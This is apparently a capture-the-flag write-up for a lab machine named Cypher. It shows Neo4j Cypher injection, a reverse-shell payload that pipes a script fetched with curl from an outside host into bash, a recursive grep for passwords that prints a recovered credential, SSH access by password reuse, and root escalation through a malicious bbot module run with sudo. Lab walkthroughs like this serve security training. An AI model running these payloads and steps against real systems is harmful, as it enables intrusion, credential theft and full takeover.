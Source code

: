 # 🗝️ Cypher

## 📝 Overview

The machine involves exploiting a Neo4j database via Cypher injection, retrieving credentials, gaining SSH access, and escalating privileges using a misconfigured Python automation script (bbot).

## 🔍 Enumeration

Initial scanning:
```sh
nmap -p- -T4 10.10.11.57
nmap -sV -sC -p 22,80 10.10.11.57
echo "10.10.11.57 cypher.htb" | sudo tee -a /etc/hosts
```
Directory and file discovery with ffuf:
```sh
ffuf -u http://cypher.htb/FUZZ -w /usr/share/secLists/Discovery/Web-Content/raft-large-files.txt -mc all -fc 404
ffuf -u http://cypher.htb/FUZZ -w /usr/share/secLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -mc all -fc 404 
ffuf -w /usr/share/secLists/Discovery/DNS/dns-Jhaddix.txt -u http://cypher.htb -H 'Host: FUZZ.cypher.htb' -mc all -fs 154
```
Found interesting API endpoint:
```sh
ffuf -u http://cypher.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt
```

## 🕵️‍♂️ Cypher Injection

With Burp Suite, we enumerate the Neo4j database:
```sh
GET /api/cypher?query=MATCH+(n)+RETURN+n+LIMIT+5
GET /api/cypher?query=MATCH+(u:USER)-[:SECRET]->(h:SHA1)+RETURN+u.name,+h.value
# we obtain user graphasm and 9f54ca4c130be6d529a56dee59dc2b2090e43acf (cannot crack)
```
Exploiting the auth endpoint via injection to get a reverse shell:
```http
POST /api/auth HTTP/1.1
Host: cypher.htb
Content-Type: application/json
{
  "username": "' RETURN h.value AS hash UNION CALL custom.getUrlStatusCode(\"dummy; curl http://10.10.14.109:8000/shell.sh | bash\") YIELD statusCode AS hash RETURN hash;//",
  "password": "x"
}
```

## 🔑 Extracting Passwords

Upgrade shell:
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Retrieve local credentials:
```sh
cat /home/graphasm/bbot_preset.yml
grep -iR "password\|passwd" / 2>/dev/null
# neo4j // cU4btyib.20xtCMCXkBmerhK
```

## 🖥️ SSH Access

Login as graphasm using reused password from neo4j:
```sh
ssh graphasm@10.10.11.57
```

## 🧗 Privilege Escalation via Bbot

Check sudo privileges:
```sh
id
groups
sudo -l
file /usr/local/bin/bbot
head -n 20 /usr/local/bin/bbot
ls -l /opt/pipx/venvs/bbot/lib/python3.12/site-packages/bbot/cli.py
```
List potentially dangerous module options:
```sh
/usr/local/bin/bbot --list-module-options | grep -iE 'file|script|eval|cmd|exec'
```
Create preset.yml:
```py
module_dirs:
  - .
modules:
  - evil
```
Create malicious module evil.py:
```py
from bbot.modules import ModuleBase

class EvilModule(ModuleBase):
    def run(self):
        import os
        os.system("/bin/bash")
```
Execute with sudo:
```sh
sudo /usr/local/bin/bbot -t dummy.com -p /tmp/test/preset.yml
```
This spawns a root shell and completes the privilege escalation.  
[Documentation](https://seclists.org/fulldisclosure/2025/Apr/19)

